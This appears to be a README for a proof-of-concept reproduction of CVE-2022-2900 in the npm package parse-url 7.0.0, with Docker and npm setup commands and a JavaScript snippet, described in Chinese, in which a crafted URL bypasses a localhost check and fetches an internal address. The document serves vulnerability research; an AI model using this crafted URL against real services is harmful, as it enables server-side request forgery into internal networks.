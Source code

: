### CVE-2022-2900

### PoC Links 
[Huntr.dev](https://huntr.dev/bounties/1b4c972a-abc8-41eb-a2e1-696db746b5fd/)

### Docker Build and Run Command
```shell
docker build -t cve-2022-2900-poc . 
docker run -itd --name CVE-2022-2900-POC cve-2022-2900-poc 
docker exec -it CVE-2022-2900-POC /bin/bash
```

### PoC Reproduce Command
```shell
cd /poc
# 安装存在漏洞的依赖
npm init -y
npm install --save parse-url@7.0.0
# 运行poc.js
node poc.js
```

### Description
可以观察到url解析错误，解析出来的属性错误，可能会触发SSRF漏洞等，例如：
```javascript
import parseUrl from "parse-url";
import fetch from 'node-fetch';

var parsed = parseUrl("http://nnnn@localhost:808:/?id=xss")
// 会跳转访问到localhost:808/
if (parsed.resource == "localhost") {
    console.log("internal network access is blocked")
} else {
    const response = await fetch('http://' + parsed.resource + parsed.pathname);
    console.log(response)
}
```



